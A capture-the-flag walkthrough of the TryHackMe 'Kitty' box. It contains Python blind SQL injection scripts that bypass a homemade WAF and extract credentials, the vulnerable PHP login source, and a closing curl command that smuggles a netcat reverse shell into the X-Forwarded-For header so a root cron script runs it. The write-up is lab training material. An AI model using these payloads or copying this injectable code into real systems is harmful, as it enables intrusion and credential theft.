


<div class="callout callout-info">

**Box Info**

**Platform:** TryHackMe, **OS:** Linux, **Difficulty:** Medium, **Host:** `kitty.thm`

</div>

<div class="callout callout-abstract">

**Attack Path**

1. PHP login with a home-grown WAF (`index.php` blocks `sleep`, `0x`, `/**/`, `-- xxxx`, `ifnull`, ` or `). Bypass with `-- -` (space-dash) and boolean UNION.
2. Blind-inject `siteusers` → recover the `kitty` web password. Log in as `admin:admin` gets you to `welcome.php` first.
3. `config.php` (readable after a shell, or via LFI) → `DB_PASSWORD 'Sup3rAwesOm3Cat!'` for user `kitty` → SSH / `su kitty`.
4. Root: the WAF logs the raw **`X-Forwarded-For`** header to `/var/www/development/logged`, and a root cron `/opt/log_checker.sh` processes that file unsafely → inject a command via the XFF header → root.

</div>

---

## Full Walkthrough

### Nmap scan

```bash
PORT   STATE SERVICE REASON  VERSION
22/tcp open  ssh     syn-ack OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    syn-ack Apache httpd 2.4.41 ((Ubuntu))
| http-headers: 
|   Date: Thu, 22 May 2025 22:35:11 GMT
|   Server: Apache/2.4.41 (Ubuntu)
|   Set-Cookie: PHPSESSID=2shj9u27j2poiqf1kvrl1jhhfg; path=/
|   Expires: Thu, 19 Nov 1981 08:52:00 GMT
|   Cache-Control: no-store, no-cache, must-revalidate
|   Pragma: no-cache
|   Connection: close
|   Content-Type: text/html; charset=UTF-8
|   
|_  (Request type: HEAD)
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

#### What we know

Looking at what I had so far: the login page was being served by Apache2 running PHP, which immediately put SQL injection on my list of things to test first. I threw a handful of typical payloads at the login form and found that some of them were getting caught almost instantly, which told me there was some kind of detection or filtering logic sitting in front of the actual query, though clearly not a particularly robust one. When I ran `ghauri` against the login instead of testing payloads by hand, at some point it triggered a redirect to a page called `/Welcome.php`, which meant the tool had actually found a way to bypass authentication.



Digging into what ghauri had actually found, the working credentials turned out to be nothing more exotic than `admin:admin`. Logging in with those took me to `/welcome.php`, which displayed a message explaining that the site was still under active development, a detail that would end up mattering a lot later on.



I went back and tested the injection manually rather than relying only on the automated tool, and confirmed the filter could be bypassed with a double-dash comment sequence instead of the usual single-dash form. With that bypass in hand, I wrote a small Python script to extract data blindly by measuring the response length for each guessed character:

```python
import requests

probe = '+-{}(), abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789_'
url = 'http://kitty.thm/index.php'
headers = {
	'Host': 'kitty.thm',
	'User-Agent': 'Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0',
	'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8',
	'Accept-Language': 'en-US,en;q=0.5',
	'Accept-Encoding': 'gzip, deflate, br',
	'Content-Type': 'application/x-www-form-urlencoded',
	'Origin': 'http://kitty.thm',
	'Connection': 'close',
	'Referer': 'http://kitty.thm/index.php',
	'Upgrade-Insecure-Requests': '1'
}
result = ''
while True:
	for elem in probe:
		query = "' UNION SELECT 1,2,3,4 where database() like '{sub}%';-- -".format(sub=result+elem)
		data = {
		    'username': query,
		    'password': '123456'
		}
		response = requests.post(url, headers=headers, data=data,allow_redirects=True)
		#print("Size of Response Content:", len(response.content), "bytes")
		if(len(response.content) == 618):
			result += elem
			break
		if(elem == probe[-1]):
			print('\033[K')
			print(result)
			exit()
		if(elem != "\n"):
			print(result+elem,end='\r')
```

#### Dumping Tables

Once I had the database name, the same blind technique let me enumerate the tables inside it:

```python
import requests

probe = '+-{}(), abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789_'
url = 'http://kitty.thm/index.php'
headers = {
	'Host': 'kitty.thm',
	'User-Agent': 'Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0',
	'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8',
	'Accept-Language': 'en-US,en;q=0.5',
	'Accept-Encoding': 'gzip, deflate, br',
	'Content-Type': 'application/x-www-form-urlencoded',
	'Origin': 'http://kitty.thm',
	'Connection': 'close',
	'Referer': 'http://kitty.thm/index.php',
	'Upgrade-Insecure-Requests': '1'
}
result = ''
while True:
	for elem in probe:
		query = "' UNION SELECT 1,2,3,4 FROM information_schema.tables WHERE table_schema = 'mywebsite' and table_name like '{sub}%';-- -".format(sub=result+elem)
		data = {
		    'username': query,
		    'password': '123456'
		}
		response = requests.post(url, headers=headers, data=data,allow_redirects=True)
		#print("Size of Response Content:", len(response.content), "bytes")
		if(len(response.content) == 618):
			result += elem
			break
		if(elem == probe[-1]):
			print('\033[K')
			print(result)
			exit()
		if(elem != "\n"):
			print(result+elem,end='\r')
```

#### Dumping Tables

From there I pointed the same approach at the `siteusers` table to pull out usernames one character at a time:

```python
import requests

probe = '+-{}(), abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789_'
url = 'http://kitty.thm/index.php'
headers = {
	'Host': 'kitty.thm',
	'User-Agent': 'Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0',
	'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8',
	'Accept-Language': 'en-US,en;q=0.5',
	'Accept-Encoding': 'gzip, deflate, br',
	'Content-Type': 'application/x-www-form-urlencoded',
	'Origin': 'http://kitty.thm',
	'Connection': 'close',
	'Referer': 'http://kitty.thm/index.php',
	'Upgrade-Insecure-Requests': '1'
}
result = ''
while True:
	for elem in probe:
		query = "' UNION SELECT 1,2,3,4 from siteusers where username like '{sub}%' and username != 'baphomet'-- -".format(sub=result+elem)
		data = {
		    'username': query,
		    'password': '123456'
		}
		response = requests.post(url, headers=headers, data=data,allow_redirects=True)
		#print("Size of Response Content:", len(response.content), "bytes")
		if(len(response.content) == 618):
			result += elem
			break
		if(elem == probe[-1]):
			print('\033[K')
			print(result)
			exit()
		if(elem != "\n"):
			print(result+elem,end='\r')

```

That extraction turned up a single username of interest: `kitty`.


#### Dumping password.

With a username in hand, I extended the script into a full four-stage extraction, database, then table, then username, then password, so I could recover the actual credential in one pass:

```python
import requests

probe = '+-{}(), abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789_'
url = 'http://kitty.thm/index.php'
headers = {
	'Host': 'kitty.thm',
	'User-Agent': 'Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0',
	'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8',
	'Accept-Language': 'en-US,en;q=0.5',
	'Accept-Encoding': 'gzip, deflate, br',
	'Content-Type': 'application/x-www-form-urlencoded',
	'Origin': 'http://kitty.thm',
	'Connection': 'close',
	'Referer': 'http://kitty.thm/index.php',
	'Upgrade-Insecure-Requests': '1'
}
db_name = ''
table_name = '' 
user_name = 'kitty' 
password = '' 

state = 1
while state < 5:
	for elem in probe:
		if state == 1:
			query = "' UNION SELECT 1,2,3,4 where database() like '{sub}%';-- -".format(sub=db_name+elem)
		elif state == 2:
			query = "' UNION SELECT 1,2,3,4 FROM information_schema.tables WHERE table_schema = '{db}' and table_name like '{sub}%';-- -".format(sub=table_name+elem, db=db_name)
		elif state == 3:
			query = "' UNION SELECT 1,2,3,4 from {tb} where username like '{sub}%' -- -".format(sub=user_name+elem,tb=table_name)
		elif state == 4:
			query = "' UNION SELECT 1,2,3,4 from {tb} where username = '{user}' and password like BINARY '{sub}%' -- -".format(sub=password+elem,tb=table_name,user=user_name)
		
		data = {
		    'username': query,
		    'password': '123456'
		}
		response = requests.post(url, headers=headers, data=data,allow_redirects=True)
		#print("Size of Response Content:", len(response.content), "bytes")
		if(len(response.content) == 618):
			if state == 1:
				db_name += elem
			if state == 2:
				table_name += elem	
			if state == 3:
				user_name += elem
			if state == 4:
				password += elem
			break
		if(elem == probe[-1]):
			print('\033[K')
			if state == 1:
				print("database:\t" + db_name)
			elif state == 2:
				print("table:\t\t" + table_name)
			elif state == 3:
				print("user:\t\t" + user_name)
			elif state == 4:
				print("password:\t" + password)
			state = state +1
		if(elem != "\n"):		
			if state == 1:
				print("database:\t" + db_name+elem,end='\r')
			elif state == 2:
				print("table:\t\t" + table_name+elem,end='\r')
			elif state == 3:
				print("user:\t\t" + user_name+elem,end='\r')
			elif state == 4:
				print("password:\t" + password+elem,end='\r')

```

Running that end to end gave me a complete, working credential:

```bash
database:	mywebsite

table:		siteusers

user:		kitty

password:	L0ng_Liv3_KittY
```

With a valid password in hand for `kitty`, SSH access to the box followed immediately.

#### Interesting finds with `linpeas`

Once I had a shell as `kitty`, I ran linPEAS to speed up local enumeration, and it flagged a few things worth following up on right away:

```bash
╔══════════╣ Web files?(output limit)
/var/www/:
total 16K
drwxr-xr-x  4 root root 4.0K Nov 15  2022 .
drwxr-xr-x 14 root root 4.0K Nov  8  2022 ..
drwxr-xr-x  2 root root 4.0K Nov 15  2022 development
drwxr-xr-x  2 root root 4.0K Nov 15  2022 html

/var/www/development:
total 32K
drwxr-xr-x 2 root     root     4.0K Nov 15  2022 .

╔══════════╣ Searching passwords in config PHP files
define('DB_PASSWORD', 'Sup3rAwesOm3Cat!');
define('DB_USERNAME', 'kitty');
define('DB_PASSWORD', 'Sup3rAwesOm3Cat!');
define('DB_USERNAME', 'kitty');

╔══════════╣ Unexpected in /opt (usually empty)
total 12
drwxr-xr-x  2 root root 4096 Feb 25  2023 .
drwxr-xr-x 19 root root 4096 Nov  8  2022 ..
-rw-r--r--  1 root root  152 Feb 25  2023 log_checker.sh


```

The `DB_PASSWORD` I'd already recovered through the blind SQLi lined up with what linPEAS found in the config files, and the standalone script sitting in `/opt` looked promising for privilege escalation. Before touching either, though, I wanted to fully understand the login logic itself, so I pulled the source of `index.php`:

#### Contents of `index.php`

```php
<?php
// Initialize the session
session_start();

// Check if the user is already logged in, if yes then redirect him to welcome page
if(isset($_SESSION["loggedin"]) && $_SESSION["loggedin"] === true){
    header("location: welcome.php");
    exit;
}

include('config.php');
$username = $_POST['username'];
$password = $_POST['password'];
// SQLMap 
$evilwords = ["/sleep/i", "/0x/i", "/\*\*/", "/-- [a-z0-9]{4}/i", "/ifnull/i", "/ or /i"];
foreach ($evilwords as $evilword) {
	if (preg_match( $evilword, $username )) {
		echo 'SQL Injection detected. This incident will be logged!';
		$ip = $_SERVER['HTTP_X_FORWARDED_FOR'];
		$ip .= "\n";
		file_put_contents("/var/www/development/logged", $ip);
		die();
	} elseif (preg_match( $evilword, $password )) {
		echo 'SQL Injection detected. This incident will be logged!';
		$ip = $_SERVER['HTTP_X_FORWARDED_FOR'];
		$ip .= "\n";
		file_put_contents("/var/www/development/logged", $ip);	
		die();
	}
}


$sql = "select * from siteusers where username = '$username' and password = '$password';";  
$result = mysqli_query($mysqli, $sql);  
$row = mysqli_fetch_array($result, MYSQLI_ASSOC);  
$count = mysqli_num_rows($result);
if($count == 1){
	// Password is correct, so start a new session
	session_start();

	// Store data in session variables
	$_SESSION["loggedin"] = true;
	$_SESSION["username"] = $username;
	// Redirect user to welcome page
	header("location: welcome.php");
} elseif ($username == ""){
	$login_err = "";
} else{
	// Password is not valid, display a generic error message
	$login_err = "Invalid username or password";
}
?>

<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <title>Login</title>
    <link rel="stylesheet" href="https://stackpath.bootstrapcdn.com/bootstrap/4.5.2/css/bootstrap.min.css">
    <style>
        body{ font: 14px sans-serif; }
        .wrapper{ width: 360px; padding: 20px; }
    </style>
</head>
<body>
    
        <h2>Development User Login</h2>
        Please fill in your credentials to login.

<?php 
if(!empty($login_err)){
        echo '' . $login_err . '';
}        
?>

        <form action="<?php echo htmlspecialchars($_SERVER["PHP_SELF"]); ?>" method="post">
            
                <label>Username</label>
                <input type="text" name="username" class="form-control">
                
            
                <label>Password</label>
                <input type="password" name="password" class="form-control">
            
            
                <input type="submit" class="btn btn-primary" value="Login">
	    
	    Don't have an account? <a href="register.php">Sign up now</a>.
        </form>
    
</body>
</html>

```


### Privesc

Reading through that source clarified the whole privilege escalation path. The development site runs on port `8080`, and its home-grown WAF logic doesn't just block suspicious input, it also writes the raw `X-Forwarded-For` header straight into `/var/www/development/logged` whenever it flags an attempted injection. That file, in turn, gets processed by a script living in `/opt` that runs as root:

```bash
#!/bin/sh
while read ip;
do
  /usr/bin/sh -c "echo $ip >> /root/logged";
done < /var/www/development/logged
cat /dev/null > /var/www/development/logged
```

That `sh -c "echo $ip >> /root/logged"` line is the actual vulnerability: since `$ip` comes straight from user-controlled input with no sanitization, anything shell-metacharacter-shaped that I put into the `X-Forwarded-For` header gets interpreted and executed as root the next time that cron job runs. Before trying it against the real target, I put together a proof of concept and tested the same logic safely on my own local machine first:

```bash
while read ip;
do
  /usr/bin/sh -c "echo $ip >> /home/anarchy/thm/boxes/kitty/logs/logged";
done < /home/anarchy/thm/boxes/kitty/logged
cat /dev/null > /home/anarchy/thm/boxes/kitty/logged
```

### root

Confident the logic held up locally, I sent the same trick at the actual box: a crafted `X-Forwarded-For` header containing a reverse shell command, delivered through a request the WAF's own filtering wouldn't catch, since it only inspects the username and password fields, never the headers:

```bash
curl -X POST -H "Content-Type: application/x-www-form-urlencoded" -H "X-Forwarded-For: \$(busybox nc 10.21.23.235 9002 -e /bin/bash)" -d "username=sqlmyswl0x998&password=baphomet123" http://127.0.0.1:8080/index.php
```
